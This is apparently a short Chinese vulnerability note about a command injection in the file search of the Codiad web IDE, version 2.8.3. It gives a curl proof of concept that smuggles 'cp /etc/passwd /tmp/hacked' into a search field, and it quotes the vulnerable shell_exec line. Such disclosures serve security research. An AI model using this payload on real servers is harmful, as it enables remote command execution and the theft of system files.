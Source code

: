 ### 文件查找 - 命令注入漏洞

影响版本

* 2.8.3

参考链接

* [Codiad在线IDE框架远程命令执行漏洞分析](http://www.freebuf.com/articles/web/141788.html)

Poc

```
# 请先修改 cookie
curl 'http://127.0.0.1/components/filemanager/controller.php?action=search&path=/tmp/demo/&type=0' -H 'Cookie: 40d1b2d83998fabacb726e5bc3d22129=vlbh200p9c5p3a2ni6e0d3ecb5; cecfeb9f0e60abb79e183c90660419a6=33qhp27nns3mcc4a8udiavird2' -d 'search_string=php&search_file_type=";cp /etc/passwd /tmp/hacked;"'; echo
```

关键代码

```
# 命令注入
$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');
```

